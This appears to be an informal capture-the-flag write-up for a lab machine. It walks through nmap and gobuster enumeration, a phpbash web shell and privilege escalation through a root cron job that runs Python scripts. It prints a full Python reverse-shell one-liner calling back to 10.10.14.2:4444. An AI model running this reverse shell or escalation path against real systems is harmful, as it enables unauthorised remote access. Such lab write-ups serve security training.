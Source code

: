Started with a nmap scan 
```
80 Apache httpd 2.4.18
```
All we have is a webserver its just a static website it looks like going to run a gobuster scan the site says something about `phpbash` found it on github its a shell to help with pentesting 
```
/index.html           (Status: 200) [Size: 7743]
/contact.html         (Status: 200) [Size: 7805]
/about.html           (Status: 200) [Size: 8193]
/uploads              (Status: 301) [Size: 312]
/php                  (Status: 301) [Size: 308]
/css                  (Status: 301) [Size: 308]
/dev                  (Status: 301) [Size: 308]
/js                   (Status: 301) [Size: 307]
/config.php           (Status: 200) [Size: 0]
/fonts                (Status: 301) [Size: 310
/single.html          (Status: 200) [Size: 7477]
```
Now we can run commands on the host and we can also read the user flag now time to get a reverse shell we can use this rev shell to get a callback ``python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`` running linpeas on the host did not find much but when I did `sudo -l` and we use the `scriptmanager` account to run commands as that account and there is a folder they control called `/scripts` and if we run `pspy` we can see root is running any script that is python `/bin/sh -c cd /scripts; for f in *.py; do python "$f"; done ` and its running as root so if we run `sudo -u scriptmanager bash -i` we now have a shell as `scriptmanager` and now we got a callback as root 
